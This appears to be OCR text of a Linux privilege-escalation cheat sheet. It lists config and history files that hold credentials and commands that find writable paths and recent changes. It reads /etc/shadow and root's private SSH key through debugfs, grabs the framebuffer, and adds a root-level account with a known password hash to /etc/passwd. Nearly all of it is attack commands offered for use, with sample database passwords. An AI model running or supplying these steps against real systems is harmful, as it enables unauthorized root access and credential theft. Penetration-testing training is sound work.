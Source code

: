 Application and config file	Config File Contents
WolfCMS
config.php	// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
Generic PHP Web App	define('DB_PASSWORD', 's3cret');
.ssh directory	authorized_keys
id_rsa
id_rsa.keystore
id_rsa.pub
known_hosts
User MySQL Info	.mysql_history
.my.cnf
User Bash History	.bash_history
Are any of the discovered credentials being reused by multiple acccounts?
sudo - username
sudo -s

Are there any Cron Jobs Running?
cat /etc/crontab

What files have been modified most recently?
find /etc -type f -printf '%TY-%Tm-%Td %TT %p\n' | sort -r
find /home -type f -mmin -60
find / -type f -mtime -2

Is the user a member of the Disk group and can we read the contents of the file system?
debugfs /dev/sda
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow

Is the user a member of the Video group and can we read the Framebuffer?
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size

Where can we WRITE?
What are all the files can I write to?
find / -type f -writable -path /sys -prune -o -path /proc -prune -o -path /usr -prune -o -path /lib -prune -o -type d 2>/dev/null

What folder can I write to?
find / -regextype posix-extended -regex "/(sys|srv|proc|usr|lib|var)" -prune -o -type d -writable 2>/dev/null

Writable Folder / file	Priv Esc Command
/home/USER/	Create an ssh key and copy it to the .ssh/authorized_keys folder the ssh into the account
/etc/passwd	manually add a user with a password of "password" using the following syntax
user:$1$xtTrK/At$Ga7qELQGiIklZGDhc6T5J0:1000:1000:,,,:/home/user:/bin/bash
You can even escalate to the root user in some cases with the following syntax:
admin:$1$xtTrK/At$Ga7qELQGiIklZGDhc6T5J0:0:0:,,,:/root:/bin/bash
Root SSH Key If Root can login via SSH, then you might be able to find a method of adding a key to the /root/.ssh/authorized_keys file.
